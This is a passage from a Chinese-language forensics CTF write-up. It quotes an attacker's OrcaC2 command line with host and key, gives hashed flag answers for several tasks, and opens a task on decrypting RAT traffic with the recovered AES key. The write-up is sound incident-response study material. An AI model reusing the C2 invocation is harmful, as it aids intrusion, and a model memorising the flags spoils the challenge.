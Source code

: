 ```plaintext
pmseindw -host=192.168.57.119:6000 -key=pJB`-v)t^ZAsP$|r
```

计算哈希

```plaintext
pJB`-v)t^ZAsP$|r -> a524c43df3063c33cfd72e2bf1fd32f6
```

即可得到答案

```flag
1. a524c43df3063c33cfd72e2bf1fd32f6
```

### task13

> 1. 攻击者使用了什么家族的 C2? 示例: PoshC2

在 task11 中已经得到了答案

```flag
1. OrcaC2
```

## Master of DFIR - Coffee

:::info 题目描述

随着调查的深入你发现情况比你预想得要复杂很多, 你逐步发现了更多入侵的痕迹

"看起来不能这么早就休息了" 于是你继续投身于下一步的调查中

你需要继续完成题目帮助饥渴 C 猫发掘所有的真相

:::

### task1

> 1. 受害者主机名是什么? 示例: DESKTOP-J6QZVBD
>
> 2. 受害者操作系统是什么版本? 以 C2 回显为准 示例: Microsoft Windows 7 专业版

已经得知 RAT 的通信 AES key 之后，就可以解密 RAT 通信的返回包
